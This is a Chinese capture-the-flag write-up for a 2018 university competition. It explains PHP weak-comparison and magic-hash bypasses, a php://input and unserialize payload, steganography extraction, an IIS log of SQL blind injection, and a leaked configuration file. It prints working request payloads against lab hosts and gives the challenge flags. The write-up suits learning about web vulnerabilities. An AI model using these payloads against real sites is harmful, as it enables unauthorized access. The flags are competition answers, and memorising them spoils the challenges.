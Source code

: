 2018/9/16  福师大黑盾杯

![1537107338208](images/1537107338208.png)

# 信息泄露+代码审计

svn泄露源码：http://192.168.200.200/web/codeaudit/.svn/text-base/index.php.svn-base.txt 

```php
<?php
error_reporting(0);
$user = $_COOKIE['user'];
$code = $_GET['code']?(int)$_GET['code']:'';
if($user == 'admin' && !empty($code)) {
	$hex = (int)$code;
	if(($hex ^ 6789) === 0xCDEF) {
		require("flag.php");
		echo $flag;
		exit();
	}	
echo "ȱ��Ӧ�еĲ���,��û��Ȩ�޲鿴������";
?>
```

`GET` 请求`code=55146` ，  请求头添加`Cookie: user=admin;` 。

`flag{a737c5c5b759c3705c8100accf65b5e4}` 

# 最好的语言

```php
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 
if (isset($_GET['x1'])) //$x1=0;=>$a=1;
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
$x2=(array)json_decode(@$_GET['x2']); 
//$x2=json_encode(['x21'=>'2018hello','x22'=>[[],0]]) ;
//string(32) "{"x21":"2018hello","x22":[[],0]}"
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        //array_search — 在数组中搜索给定的值，如果成功则返回相应的键名 
        //mixed array_search( mixed $needle, array $haystack[, bool $strict = false] )
        //第三个参数决定在搜索时是否比较类型，默认不比较，也是这里能够绕过的原因。
        //var_dump(array_search('XIPU', array("0","1",0)));//int(2)
        //0==‘XIPU’为真，搜索到0值的下标为2
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            //两个符合正则  /0e\d+/  的字符串弱相等。
            // 爆破见下方python代码
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

```python
def brute():
    for a in range(0x20, 0x7f):
        for b in range(0x20, 0x7f):
            for c in range(0x20, 0x7f):
                    x = chr(a) + chr(b) + chr(c)+s
                    mm=md5(x.encode('UTF-8')).hexdigest()
                    flag=1
                    for i in mm[10:24]:
                        if i not in '0123456789':
                            flag=0
                            break
                    if flag and mm[8:10]=='0e':
                        print(x)

brute()
# kN[XIPU
# v=|XIPU
# y'wXIPU
# }MOXIPU
# ~VhXIPU
## http://192.168.200.200/web/bestlanguage/?x1=0&x2={%22x21%22:%222018hello%22,%22x22%22:[[],0]}&x3=~VhXIPU
## flag{510ea2879fa29d0d618b1f55350965c3}
```

# the user is admin

和 bugku 平台某个题目原理一致，只有文件名和部分字符串不同，可以参考 [该题](https://findneo.github.io/180406BugkuWriteup/#welcome-to-bugkuctf) ，不赘述。

```php
/web/theuserisadmin/?file=class.php&user=php://input&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

post:the user is admin
    
//flag{078d8dd8023d5716a11780adf344dfd2}
```

# ccgs

![1537109403700](images/1537109403700.png)

```python
binwalk -e sgcc.png
cat secret.txt | base64 -d | base64 -d > final.png
//原本用notepad++解码base64，然后拷贝到winhex不成功。后来用这么一句话解决了，很舒服
//Linux大法好 \o/
```

![1537070199581](images/1537070199581.png)

# 注入日志分析

**author: [Mads](https://madsome.one/) **  

给了一个日志文件，`file data.log`得到是一个文本文件，直接打开，前几行是

```
#Software: Microsoft Internet Information Services 6.0
#Version: 1.0
#Date: 2015-10-21 09:16:34
```

猜测是IIS服务器记录的流量日志， 分析前几行

```
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /index.htm - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /favicon.ico - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 404 0 2
2015-10-21 09:16:36 W3SVC1 192.168.1.135 GET /show.asp id=2 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:25:01 W3SVC1 192.168.1.135 GET /show.asp id=2%27|17|80040e14|字符串_''_之前有未闭合的引号。 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 500 0 0
```

可以看到就是一条条的HTTP请求，并且后面跟着状态码。继续浏览，看到`id`字段出现一些`SQL`的关键字，那么可以想到这记录的就是`sqlmap`(或许)的注入流量分析。思路就是找到关键的注入请求，文件很大，我们可以搜索`flag`试试，找到关键的请求如下

```
...
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 500 0 0
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E48 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 200 0 0
...
```

可以利用文本编辑器如`sublime text 3`的`ctrl+H`的替换功能， 将关键流量进行精简并`urldecode`利于分析(截取两个代表性请求)

```
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 500 0 0
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>48 80 200 0 0
```

可以看到这里是二分法盲注的HTTP请求，现在思路很明确了， 从`SUBSTRING(.*, 1, 1)`开始找，并且只要看最后几条的注入请求就可以判断出字符是多少。 比如`SUBSTRING(.*, 1, 1) > 48`的状态码是`200`，`SUBSTRING(.*, 1, 1) > 49`的状态码是`500`，那其实就可以确定字符的ascii码是49。就这样就能得到`theflag`的值。

# brightstar

[列移位密码](https://ctf-wiki.github.io/ctf-wiki/crypto/classical/others/#_9) 

# 这是啥呀

base32编码

# 下午

CMSeeK 扫出配置文件 http://192.168.200.202//configuration.php.txt 

底部有flag: `flag{0b58f603ff55c0c190502b44b4ffbf2c}`  

此外一些没进一步利用上的信息和部分题目的附件放在[GiIthub](https://github.com/findneo/ctfgodown/blob/master/20180916heidun/) 上，有兴趣可移步查看。